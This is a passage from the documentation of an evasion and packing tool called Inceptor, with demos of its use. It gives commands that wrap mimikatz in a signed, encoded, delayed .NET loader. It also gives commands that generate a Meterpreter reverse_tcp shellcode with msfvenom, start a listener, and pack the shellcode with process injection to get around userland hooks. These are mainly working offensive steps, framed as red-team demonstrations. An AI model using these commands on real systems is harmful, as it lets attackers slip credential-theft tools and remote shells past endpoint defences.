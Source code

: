 ```
# We have to specify Donut as the loader otherwise Pe2Shellcode will be used as default
python inceptor.py dotnet -t donut mimikatz.exe -o kiwi.exe --sgn --sign --delay 120 
```

<div class="embed-container">
  <iframe
      style="display: block;margin-left: auto;margin-right: auto;"
      width="800"
      height="600"
      src="https://drive.google.com/file/d/1fCeWCUSuB22qbMpKmCB6GaeKMBnA1kOR/preview"
      frameborder="0"
      allow="autoplay"
      allowfullscreen="">
  </iframe>
</div>

## DEMO 2: Userland Hooking Bypass (Executing Meterpeter)

To run this simple demo, we will make use of the popular tool `frida-trace`. This demo will serve as a PoC
to show what's userland hooking is about, and how we can effectively bypass it via manual mapping and Syscalls.

NW: To run the demo as below, it's necessary to download the files `demo.bat` and `demo.ps1` from Inceptor 
repository. Frida will install a hook on `NtCreateThreadEx`, and Inceptor will try to bypass it using raw syscalls.

### Demo 2.1: we get caught!

```sh-session
# Console 1: Start Metasploit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f raw -o msf.raw
handler -H eth0 -P 4444 -p windows/x64/meterpreter/reverse_tcp

# Console 2: Pack the shellcode
# --sgn: encode the shellcode
# --sign: sign the loader
# -P: uses process injection
# --delay 15: Wait for 15 seconds to allow frida to install the hooks!
python inceptor.py dotnet msf.raw -o MySisterFell.exe --sgn --sign -P --delay 15

# Console 3: Start the demo!
demo.bat MySisterFell.exe
```

The result should be similar to the following, showing that Frida could intercept the call to 
NtCreateThreadEx performed by the loader:

![We Got Caught!](./assets/We_Got_Caught.png)
